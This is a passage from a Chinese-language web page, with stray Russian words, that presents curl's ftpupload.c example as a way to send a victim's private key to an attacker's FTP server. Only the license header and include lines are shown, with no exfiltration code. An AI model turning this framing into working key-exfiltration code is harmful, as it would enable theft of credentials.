 

<h3>可以在程序的源代碼中縫入一個密碼：</h3>



<p>注意<a href="https://curl.se/libcurl/c/ftpupload.html" target="_blank" rel="noreferrer noopener"><strong>ftpupload.c代碼</strong></a></p>



<blockquote class="wp-block-quote">
<p><a href="https://linuxcookbook.ru/articles/komanda-curl-linux#:~:text=%D0%9A%D0%BE%D0%BC%D0%B0%D0%BD%D0%B4%D0%B0%20curl%20%D0%B2%20Linux&amp;text=%D0%9A%D0%BE%D0%BC%D0%B0%D0%BD%D0%B4%D0%B0%20curl%20%D0%BF%D1%80%D0%B5%D0%B4%D0%BD%D0%B0%D0%B7%D0%BD%D0%B0%D1%87%D0%B5%D0%BD%D0%B0%20%D0%B4%D0%BB%D1%8F%20%D0%BF%D0%B5%D1%80%D0%B5%D0%B4%D0%B0%D1%87%D0%B8,%D0%BF%D1%80%D0%BE%D1%82%D0%BE%D0%BA%D0%BE%D0%BB%D0%BE%D0%B2%20%D0%B8%20%D0%B5%D1%91%20%D0%B2%D0%BE%D0%B7%D0%BC%D0%BE%D0%B6%D0%BD%D0%BE%D1%81%D1%82%D0%B8%20%D0%BE%D0%B3%D1%80%D0%BE%D0%BC%D0%BD%D1%8B." target="_blank" rel="noreferrer noopener"><strong>cURL</strong>&nbsp;</a>是一個跨平台的命令行實用程序，它允許您使用語法通過許多不同的協議與許多不同的服務器進行交互<code>URL</code>。</p>
</blockquote>



<p>此代碼可以將私鑰發送給<code>FTP - сервер</code>&nbsp;<em>攻擊者</em></p>



<pre class="wp-block-code"><code>/***************************************************************************
 *                                  _   _ ____  _
 *  Project                     ___| | | |  _ \| |
 *                             / __| | | | |_) | |
 *                            | (__| |_| |  _ &lt;| |___
 *                             \___|\___/|_| \_\_____|
 *
 * Copyright (C) 1998 - 2022, Daniel Stenberg, &lt;daniel@haxx.se&gt;, et al.
 *
 * This software is licensed as described in the file COPYING, which
 * you should have received as part of this distribution. The terms
 * are also available at https://curl.se/docs/copyright.html.
 *
 * You may opt to use, copy, modify, merge, publish, distribute and/or sell
 * copies of the Software, and permit persons to whom the Software is
 * furnished to do so, under the terms of the COPYING file.
 *
 * This software is distributed on an "AS IS" basis, WITHOUT WARRANTY OF ANY
 * KIND, either express or implied.
 *
 * SPDX-License-Identifier: curl
 *
 ***************************************************************************/
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
 
#include &lt;curl/curl.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;errno.h&gt;
#ifdef WIN32
#include &lt;io.h&gt;
#else
#include &lt;unistd.h&gt;
#endif
 